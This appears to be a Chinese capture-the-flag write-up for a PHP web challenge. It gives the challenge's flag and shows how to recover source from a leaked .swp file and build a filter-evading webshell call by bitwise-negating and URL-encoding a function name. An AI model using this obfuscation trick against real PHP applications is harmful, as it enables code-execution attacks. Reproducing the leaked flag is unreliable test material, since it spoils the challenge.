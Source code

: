 - **题目名称：** simple_php
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** tutu
- **考点：** 

1.  源码泄露swp
2.  特殊字符webshell构造

- **描述：** 不会真有人点99999999下吧

- **flag：** flag{a3b5c6d-563ae31f-b6672e33ed-ff63a5b8}

- **Writeup：** 

  根据提示，访问index.php.swp得到源码，进行审计发现大部分webshell构造方式都被ban，因为`('getflag')();`的方式来获取在线函数，所以可以将字符串取反后装成十六进制，添加上%构造 URL 编码的特殊字符串，再通过取反构造webshell：

  ```php
  <?php
  echo bin2hex(~'getflag'); //989a8b99939e98-->%98%9a%8b%99%93%9e%98
  //payload: index.php?code=(~%98%9a%8b%99%93%9e%98)();
  ```